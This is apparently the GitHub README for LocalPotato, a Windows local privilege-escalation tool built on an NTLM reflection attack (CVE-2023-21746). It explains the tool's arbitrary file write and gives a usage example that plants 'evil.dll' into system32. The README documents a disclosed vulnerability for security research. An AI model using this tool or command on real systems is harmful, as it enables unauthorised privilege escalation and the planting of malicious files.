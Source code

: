 # LocalPotato
Another Local Windows privilege escalation using a new potato technique ;)

The LocalPotato attack is a type of NTLM reflection attack that targets local authentication. This attack allows for arbitrary file read/write and elevation of privilege. 

More technical details at --> https://www.localpotato.com

## Usage

```

         LocalPotato (aka CVE-2023-21746)
         by splinter_code & decoder_it


Mandatory Args:
-i Source file to copy
-o Output file - do not specify the drive letter
Example: localpotato -i c:\hacker\evil.dll -o windows\system32\evil.dll

Optional Args:
-c CLSID (Default {854A20FB-2D44-457D-992F-EF13785D2B51})
-p COM server port (Default 10271)
```

## Demo

![image](https://user-images.githubusercontent.com/19797064/218135881-af046286-c299-4f08-856b-2265adc46e64.png)


## Authors: 
- [@decoder_it](https://twitter.com/decoder_it)
- [@splinter_code](https://twitter.com/splinter_code)
